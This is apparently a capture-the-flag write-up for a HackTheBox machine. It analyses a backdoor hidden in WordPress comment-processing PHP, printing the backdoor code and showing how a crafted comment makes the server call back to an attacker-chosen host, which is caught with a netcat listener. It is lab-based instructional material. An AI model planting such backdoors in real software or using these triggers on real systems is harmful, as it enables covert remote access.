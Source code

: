 
I added some whitespace to the code to make the result more readable:

    
    
    if ($comment_author_email == "help@toby.htb" && $comment_author_url== "http://test.toby.htb/" && substr($comment_content,0,8) == "746f6279" {
        $a=substr($comment_content,8);
        $host=explode(":",$a)[0];
        $sec=explode(":",$a)[1];
        $d="/usr/bin/wordpress_comment_validate";
        include $d;
        wp_validate_4034a3($host,$sec);
        return new WP_Error('unspecified error');
    }
    

The code is looking for a comment with the email “help@toby.htb”, a specific
url, and a comment that starts with eight specific characters. It then takes
the rest of the content and splits (`explode`) it on “:”, with the first saved
as `$host` and the second as `$sec`. It then passes those to a function I
don’t have access to at this time.

### Trigger

Because there’s a `$host` variable, I can guess that it’s making a connection
to the given host. It’s not clear what `$sec` is. It would make sense if it
were a port number, but the variable name doesn’t fit. It could be “secret”?
As port is the best thing I can guess, I’ll try something that looks like a
port.

I’ll open Wireshark listening on tun0, and submit this comment:

![image-20220413154213487](https://0xdfimages.gitlab.io/img/image-20220413154213487.png)

With a Wireshark display filter of `!tcp.port==80`, there’s only two other
packets that show up, an attempt to connect to my host on TCP 20053:

![image-20220413154319875](https://0xdfimages.gitlab.io/img/image-20220413154319875.png)

### Initial Message

#### Understand $sec

If I open up `nc` to catch the connection, and kick that POST request over to
Repeater to send again, it gets a message:

    
    
    oxdf@hacky$ nc -lvnp 20053
    Listening on 0.0.0.0 20053
    Connection received on 10.10.11.121 42058
    0d6617ff-8bae-42a8-b9bf-eb836da95803|786f725f6b65793a30663031316431623134313630313032306431633162303031623066303131643162313731313032303230643163
    

If I change the `comment` from `746f627910.10.14.6:4444` to
`746f627910.10.14.6:0xdf`, the message comes back empty and immediately closes
the connection. Some playing around shows that it only works if `$sec` is an
even number of hex characters (0-9a-fA-F).
